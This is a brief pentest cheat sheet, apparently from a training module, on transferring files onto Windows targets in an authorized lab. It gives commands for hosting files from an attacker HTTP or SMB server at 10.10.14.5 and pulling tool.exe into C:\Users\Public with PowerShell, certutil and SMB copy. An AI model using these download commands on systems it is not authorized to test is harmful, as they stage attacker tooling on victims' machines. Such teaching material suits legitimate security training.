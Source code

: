 ## Minimal cheat sheet (one-screen flow)

- Attacker: HTTP
```
cd ~/transfer && python3 -m http.server 8000
```
- Windows (PowerShell modern):
```
powershell -NoProfile -Command "Invoke-WebRequest -Uri http://10.10.14.5:8000/tool.exe -OutFile C:\Users\Public\tool.exe"
```
- Windows (PowerShell v2 fallback):
```
powershell -NoProfile -Command "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.5:8000/tool.exe','C:\Users\Public\tool.exe')"
```
- Windows (certutil):
```
certutil -urlcache -f http://10.10.14.5:8000/tool.exe C:\Users\Public\tool.exe
```
- Attacker: SMB
```
sudo impacket-smbserver -smb2support SHARE /tmp/share
```
- Windows (SMB copy):
```
net use Z: \\10.10.14.5\SHARE
copy Z:\tool.exe C:\Users\Public\tool.exe
net use Z: /delete
```
- Verify hash:
```
certutil -hashfile C:\Users\Public\tool.exe SHA256
```

## Summary
This module covers reliable, native-friendly ways to transfer files onto Windows targets in an authorized lab/pentest: host content via HTTP or SMB on the attacker box, then use built-in Windows clients (PowerShell Invoke-WebRequest/WebClient, certutil, Start-BitsTransfer, curl, SMB copy) to pull the file into a writable location. If one method is blocked, switch to another. Always verify integrity and clean up shares/servers afterward.